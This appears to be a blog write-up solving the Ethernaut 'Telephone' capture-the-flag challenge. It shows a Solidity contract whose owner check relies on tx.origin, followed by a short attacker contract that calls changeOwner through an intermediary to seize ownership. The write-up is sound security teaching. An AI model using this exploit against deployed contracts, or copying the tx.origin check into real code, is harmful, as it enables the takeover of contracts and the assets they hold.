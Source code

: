 ```yaml
---
title: Ethernaut - Telephone - Solution
date: '2024-05-05'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Telephone CTF
---
```


# Ethernaut - Telephone - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## Solution

To claim ownership of the above contract, we need to call `changeOwner()` while ensuring that `tx.origin != msg.sender`.
This is easily achieved by calling `changeOwner()` from the following attacker contract rather than our externally owned account:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttacker {
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    function attack() external {
        (bool success, ) = VICTIM.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
        require(success, "Attack failed");
    }
}
```